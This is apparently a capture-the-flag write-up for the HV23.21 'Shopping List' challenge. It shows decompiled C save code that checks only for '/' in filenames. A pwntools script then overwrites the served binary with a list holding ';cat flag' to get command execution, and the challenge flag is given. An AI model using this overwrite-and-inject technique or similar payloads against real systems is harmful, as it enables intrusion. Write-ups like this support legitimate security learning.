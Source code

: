 # [HV23.21] Shopping List

## Introduction

Difficulty: Hard<br>
Author: Fabi_07

Santa still needs to buy some gifts, but he tends to forget things easily. That's why he created his own application: A shopping list with state-of-the-art hacker protection.

## Solution

Well, I was very happy to see a solve after 20 Minutes, this meant that there was an unintended solution. After looking for way too long for this little mishap, I noticed something peculiar inside the `save` functionality of the shopping list.

```c
case 's':
    if ( itemCount )
    {
        s = (char *)getstr("Filename:");
        if ( strchr(s, '/') )
        {
          puts("hacker detected, you will be reported to the admin.");
          streama = fopen("flag", "w");
          fwrite("I told you not to overstep any boundaries...", 1uLL, 44uLL, streama);
          fclose(streama);
        }
        stream = fopen(s, "w");
        fwrite("# Shopping list\n", 1uLL, 0x10uLL, stream);
        for ( ii = 0; ii <= 99; ++ii )
        {
          if ( *(_QWORD *)(8LL * ii + items) )
            fprintf(
              stream,
              " - %ldx %s\n",
              *(_QWORD *)(*(_QWORD *)(8LL * ii + items) + 16LL),
              **(const char ***)(8LL * ii + items));
        }
        fclose(stream);
        printf("Created File %s.\n\n", s);
        free(s);
    }
    else
    {
        puts("\nPlease add a item to your shopping list first.\n");
    }
    break;
```

It only checks for `/` in the filename, but not for it's own name, we know it's getting hosted with `socat`, so if we just overwrite the binary with our own bash commands, we can do whatever we want.

```py
from pwn import *

rem = remote('152.96.15.6', 1337)
rem.sendlineafter(b' > ', b'a')
rem.sendlineafter(b' > ', b';cat flag')
rem.sendlineafter(b' > ', b'1337')
rem.sendlineafter(b' > ', b's')
rem.sendlineafter(b' > ', b'vuln')
rem.sendlineafter(b' > ', b'q')

rem = remote('152.96.15.6', 1337)
rem.interactive()
```

The above script creates a shopping list looking like this:

```bash
# Shopping list
 - 1337x ;cat flag
```

This oddly enough works to give us the flag

![flag](flag.png)

Flag: `HV23{heap4the_win}`